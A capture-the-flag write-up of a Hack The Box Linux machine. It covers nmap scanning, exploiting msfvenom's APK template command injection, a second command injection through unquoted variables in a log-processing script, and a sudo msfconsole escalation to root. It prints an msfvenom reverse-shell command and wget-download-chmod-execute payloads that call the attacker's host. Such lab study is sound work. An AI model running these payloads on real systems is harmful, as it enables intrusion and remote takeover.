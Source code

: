 # Box 



![image-20210309103950114](img/image-20210309103950114.png)

https://www.hackthebox.eu/home/machines/profile/314

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [User 2](#user-2)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap : 

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.226 10.10.10.226
```

![image-20210309104331281](img/image-20210309104331281.png)

Well we can see there is a http website. Let's take a look : 

![image-20210309104359714](img/image-20210309104359714.png)



We can generate payload but when I choose "linux" the server displays "something went wrong" everytime. Maybe we can do something about it ? (spoiler : no)

## Exploitation

Since the website uses msfvenom te generate our payload maybe it is the way ? Well, searching for "metasploit exploit" I found this :

https://www.exploit-db.com/exploits/49491

You can find an explanation here : 

https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md

Well now I modified the payload with `curl http://10.10.14.2:4444` which worked : 

![image-20210309124552617](img/image-20210309124552617.png)

We know that we can do a RCE. I tried several methods to get a reverse shell but only one worked.

I used msfvenom to generate a reverse_shell using : 

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f elf > rev_shell.elf
```

In the exploit I used this payload : 

```python
payload = 'wget http://10.10.14.2:4444/rev_shell.elf -O /tmp/rev_shell.elf && chmod +x /tmp/rev_shell.elf && /tmp/rev_shell.elf'
```

## Post-Exploitation

### User

We are a user we can get our flag.

![image-20210309124954557](img/image-20210309124954557.png)

There is a second user called pwn. I think I need to be pwn to be able to get to root.

![image-20210309144241143](img/image-20210309144241143.png)

## User 2

Firstly, I see a file where kid is the user owner is kid  and pwn is the group.

![image-20210309144413438](img/image-20210309144413438.png)

There is a script in the pwn home that we can read : 

![image-20210309144503626](img/image-20210309144503626.png)

When I first read the script, I thought there was nothing to do, then I tried to write in the `/home/kid/logs/hackers` file and we can see that it is always read and its content removed : 

![image-20210309151659818](img/image-20210309151659818.png)

After rereading the script I saw where we can do  a RCE, because there are unquoted variables : 

I took my previous payload and added two arguments.

You need to add two arguments before because the code `cut -d ' ' -f3-` takes the 3rd argument only.

```bash
echo "d f \$(wget http://10.10.14.2:4444/rev_shell.elf -O /tmp/rev_shell.elf && chmod +x /tmp/rev_shell.elf && /tmp/rev_shell.elf)" > /home/kid/logs/hackers
```



![image-20210309144705004](img/image-20210309144705004.png)

### Root

We are now pwn. Let's do a `sudo -l` :

![image-20210309145711173](img/image-20210309145711173.png)

We can see that we can use msfconsole as root. 

![image-20210309150408923](img/image-20210309150408923.png)

Rooted.